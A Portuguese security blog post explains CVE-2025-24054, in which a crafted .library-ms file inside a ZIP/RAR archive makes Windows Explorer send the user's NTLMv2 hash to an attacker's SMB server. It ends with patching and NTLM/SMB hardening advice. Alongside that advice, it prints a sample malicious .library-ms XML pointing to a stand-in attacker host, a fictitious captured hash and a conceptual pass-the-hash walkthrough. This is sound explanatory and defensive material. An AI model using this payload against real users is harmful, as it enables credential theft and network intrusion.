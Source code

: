 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot"
images:
  - images/SemTitulo-1.png
  - images/SemTitulo-2.png
draft: false
tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).

Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

- **Tentar ataques de "Pass-the-Hash"**: Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
- **Tentar Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:

- **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso

1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

   - **O que é SMB (Server Message Block)?** De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede.

2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///servidor-do-atacante.com/recurso_malicioso</url>
                <!-- Outra variação poderia ser: <url>\servidor-do-atacante.com
ecurso_malicioso</url> -->
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```

A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

3. **Entrega e Extração**: O invasor comprime este arquivo `.library-ms` (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima.

4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer tenta se conectar automaticamente ao caminho SMB especificado.

5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`  
**Hash NTLMv2 Capturado (Exemplo Fictício)**:  
`UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

## Ataques Possíveis com o Hash

- **Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas como Hashcat ou John the Ripper com wordlists para tentar descobrir a senha real.
- **Ataques de "Pass-the-Hash" (PtH)**: O invasor usa o hash diretamente para se autenticar.

### Exemplo Conceitual de PtH

1. O atacante capturou o hash NTLMv2 de `MEUDOMINIO\UsuarioAlvo`.
2. Esse usuário também é administrador de um servidor chamado "SERVIDOR_ALVO".
3. O atacante usa o hash com ferramentas como PsExec ou Impacket para acessar esse servidor.
4. Se o servidor aceitar NTLM, o atacante obtém acesso como administrador.

## Recomendações

1. **Mantenha o Windows Atualizado**
2. **Cuidado com arquivos ZIP/RAR de fontes desconhecidas**
3. **Ambientes corporativos**:
   - Desative NTLM se possível, use Kerberos
   - Restrinja conexões SMB externas
   - Monitore tentativas de autenticação NTLM suspeitas

## Conclusão
<img src="/images/post/imagem-cve.png" alt="mulher hacker" style="max-width: 80%; height: auto; display: block; margin: 0 auto;">
A CVE-2025-24054 mostra como algo simples como extrair um arquivo pode expor credenciais sensíveis. A correção já está disponível, mas a compreensão do vetor de ataque é essencial para defesa preventiva.

---

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**

---

<!-- Imagem no final da página -->

![Imagem no final da página](/images/SemTitulo-2.png)

<!-- Versão alternativa com HTML -->
<img src="/images/SemTitulo-2.png" alt="Imagem final da página" style="max-width: 80%; height: auto; display: block; margin: 0 auto;" />
